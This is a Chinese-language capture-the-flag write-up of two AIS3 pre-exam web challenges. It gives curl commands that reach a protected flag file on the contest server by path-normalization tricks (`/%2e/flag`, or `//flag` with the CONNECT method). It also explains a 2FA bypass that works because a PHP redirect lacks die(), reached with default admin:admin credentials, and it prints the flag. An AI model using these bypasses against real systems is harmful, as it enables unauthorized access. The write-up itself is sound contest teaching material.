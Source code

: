 Web 破台🎉

![preface-discord](preface-discord.webp)

### Tomorin db 🐧

Solves: 282/389\
Author: naup96321\
[官方解](https://naup.mygo.tw/2025/05/31/2025-AIS3-pre-exam-MFC-official-writeup/#Tomorin-db-%F0%9F%90%A7)

⚠️ Unintended Solution

{{<details "Source code"></details>}}

Go HTTP Server 因為某些不明原因，在選擇 HTTP Handler 時的邏輯異常，插入 `/%2e/` 就能跳過 `/flag` 的 HandleFunc 碰到 `flag` 檔案。

```bash
curl --path-as-is "http://chals1.ais3.org:30000/%2e/flag"
```

Flag: `AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_cute_D0_yo7_L0ve_t0MoRIN?}`

根據 Flag 可以看到這題的預期解與 `CONNECT` 這個 HTTP Request Method 相關，指定 Method 後的路徑能再精簡三個字元：

```bash
curl --path-as-is "http://chals1.ais3.org:30000//flag" -X CONNECT
```

### Login Screen 1

Solves: 217/389\
Author: Ching367436\
First Blood 🩸

身為 Web 狗，看到一個登入表單身體反射性地輸入了 `admin:admin`，問題在 `dashboard.php` 檢查使用者沒有通過 2FA，設定重新導向回 2FA 的 Header 後沒有 `die()`，剩餘的腳本還是會繼續執行，打開 Burp 抓 Response 就能直接拿到 Flag。